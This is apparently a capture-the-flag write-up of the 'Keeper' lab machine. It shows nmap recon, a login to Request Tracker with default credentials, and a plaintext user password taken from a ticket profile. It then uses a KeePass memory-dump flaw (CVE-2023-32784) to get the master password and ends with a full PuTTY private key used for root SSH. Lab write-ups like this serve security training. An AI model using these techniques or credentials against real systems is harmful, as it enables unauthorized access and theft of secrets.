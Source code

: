 ## Recon

```bash
# Nmap 7.94 scan initiated Wed Nov 22 06:51:04 2023 as: nmap -sT -sV -sC -O -p 22,80 -oA nmap/detail 10.10.11.227
Nmap scan report for 10.10.11.227
Host is up (0.043s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 35:39:d4:39:40:4b:1f:61:86:dd:7c:37:bb:4b:98:9e (ECDSA)
|_  256 1a:e9:72:be:8b:b1:05:d5:ef:fe:dd:80:d8:ef:c0:66 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.18.0 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.8 (96%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.5 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Nov 22 06:51:16 2023 -- 1 IP address (1 host up) scanned in 11.73 seconds
```

## Foothold

### tickets.keeper.htb

```html
<html>
  <body>
    <a href="http://tickets.keeper.htb/rt/">To raise an IT support ticket, please visit tickets.keeper.htb/rt/</a>
  </body>
</html>
```

- jump to another site
- some info

```
4.4.4+dfsg-2ubuntu1 
sales@bestpractical.com.
```

- login page: default password (bestpracticing) -> **root:password**

- find sqli: https://www.exploit-db.com/exploits/38459 [x], sqlmap [x]
- find another user

![image-20231122090630070](./Keeper.assets/image-20231122090630070.png)

- get cred from his main page -> **lnorgaard:Welcome2023!**

![image-20231122090655004](./Keeper.assets/image-20231122090655004.png)

## Privilege Escalation

### ssh -> lnorgaard

- basic enumeration

```bash
lnorgaard@keeper:~$ sudo -l
[sudo] password for lnorgaard:
Sorry, user lnorgaard may not run sudo on keeper.

lnorgaard@keeper:~$ uname -a
Linux keeper 5.15.0-78-generic #85-Ubuntu SMP Fri Jul 7 15:25:09 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
lnorgaard@keeper:~$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:c5:39 brd ff:ff:ff:ff:ff:ff
    altname enp3s0
    altname ens160
    inet 10.10.11.227/23 brd 10.10.11.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 dead:beef::250:56ff:feb9:c539/64 scope global dynamic mngtmpaddr
       valid_lft 86399sec preferred_lft 14399sec
    inet6 fe80::250:56ff:feb9:c539/64 scope link
       valid_lft forever preferred_lft forever
       


lnorgaard@keeper:~$ netstat -tuln
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State
tcp        0      0 127.0.0.1:9000          0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.1:25            0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN
tcp6       0      0 ::1:25                  :::*                    LISTEN
tcp6       0      0 :::80                   :::*                    LISTEN
tcp6       0      0 :::22                   :::*                    LISTEN
udp        0      0 127.0.0.53:53           0.0.0.0:*
udp        0      0 0.0.0.0:68              0.0.0.0:*
```

- zip file, unzip it, get two related pass-files

```bash
two special files
-rwxr-x--- 1 lnorgaard lnorgaard 253395188 May 24 12:51 KeePassDumpFull.dmp
-rwxr-x--- 1 lnorgaard lnorgaard      3630 May 24 12:51 passcodes.kdbx
```

### lnorgaard -> root

- cracking these two files

1. [vdohney/keepass-password-dumper: Original PoC for CVE-2023-32784 (github.com)](https://github.com/vdohney/keepass-password-dumper) -> crack x.dmp to get some ambiguous master password

```
$ cat passwds
●ødgrød med fløde
●Ïdgrød med fløde
●,dgrød med fløde
●ldgrød med fløde
●`dgrød med fløde
●-dgrød med fløde
●'dgrød med fløde
●]dgrød med fløde
●§dgrød med fløde
●Adgrød med fløde
●Idgrød med fløde
●:dgrød med fløde
●=dgrød med fløde
●_dgrød med fløde
●cdgrød med fløde
●Mdgrød med fløde
```

2. google it based on the concrete text -> get a meaningful phrase -> **rødgrød med fløde**

![image-20231122091617803](./Keeper.assets/image-20231122091617803.png)

3. crack x.kdbx to get putty-format private key

![image-20231122091642384](./Keeper.assets/image-20231122091642384.png)

4. use puttygen based on private key to generate ssh private key

```bash
$ cat key
PuTTY-User-Key-File-3: ssh-rsa
Encryption: none
Comment: rsa-key-20230519
Public-Lines: 6
AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
8riCZV30ZbfEF09z0PNUn4DisesKB4x1KtqH0l8vPtRRiEzsBbn+mCpBLHBQ+81T
EHTc3ChyRYxk899PKSSqKDxUTZeFJ4FBAXqIxoJdpLHIMvh7ZyJNAy34lfcFC+LM
Cj/c6tQa2IaFfqcVJ+2bnR6UrUVRB4thmJca29JAq2p9BkdDGsiH8F8eanIBA1Tu
FVbUt2CenSUPDUAw7wIL56qC28w6q/qhm2LGOxXup6+LOjxGNNtA2zJ38P1FTfZQ
LxFVTWUKT8u8junnLk0kfnM4+bJ8g7MXLqbrtsgr5ywF6Ccxs0Et
Private-Lines: 14
AAABAQCB0dgBvETt8/UFNdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6j
oDni1wZdo7hTpJ5ZjdmzwxVCChNIc45cb3hXK3IYHe07psTuGgyYCSZWSGn8ZCih
kmyZTZOV9eq1D6P1uB6AXSKuwc03h97zOoyf6p+xgcYXwkp44/otK4ScF2hEputY
f7n24kvL0WlBQThsiLkKcz3/Cz7BdCkn+Lvf8iyA6VF0p14cFTM9Lsd7t/plLJzT
VkCew1DZuYnYOGQxHYW6WQ4V6rCwpsMSMLD450XJ4zfGLN8aw5KO1/TccbTgWivz
UXjcCAviPpmSXB19UG8JlTpgORyhAAAAgQD2kfhSA+/ASrc04ZIVagCge1Qq8iWs
OxG8eoCMW8DhhbvL6YKAfEvj3xeahXexlVwUOcDXO7Ti0QSV2sUw7E71cvl/ExGz
in6qyp3R4yAaV7PiMtLTgBkqs4AA3rcJZpJb01AZB8TBK91QIZGOswi3/uYrIZ1r
SsGN1FbK/meH9QAAAIEArbz8aWansqPtE+6Ye8Nq3G2R1PYhp5yXpxiE89L87NIV
09ygQ7Aec+C24TOykiwyPaOBlmMe+Nyaxss/gc7o9TnHNPFJ5iRyiXagT4E2WEEa
xHhv1PDdSrE8tB9V8ox1kxBrxAvYIZgceHRFrwPrF823PeNWLC2BNwEId0G76VkA
AACAVWJoksugJOovtA27Bamd7NRPvIa4dsMaQeXckVh19/TF8oZMDuJoiGyq6faD
AF9Z7Oehlo1Qt7oqGr8cVLbOT8aLqqbcax9nSKE67n7I5zrfoGynLzYkd3cETnGy
NNkjMjrocfmxfkvuJ7smEFMg7ZywW7CBWKGozgz67tKz9Is=
Private-MAC: b0a0fd2edf4f0e557200121aa673732c9e76750739db05adc3ab65ec34c55cb0

$ puttygen key -O private-openssh -o id_rsa

$ chmod 600 id_rsa
```

5. ssh root using this private key, id_rsa

```bash
$ ssh -i id_rsa root@10.10.11.227
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

You have new mail.
Last login: Tue Aug  8 19:00:06 2023 from 10.10.14.41
root@keeper:~# ls
root.txt  RT30000.zip  SQL
```

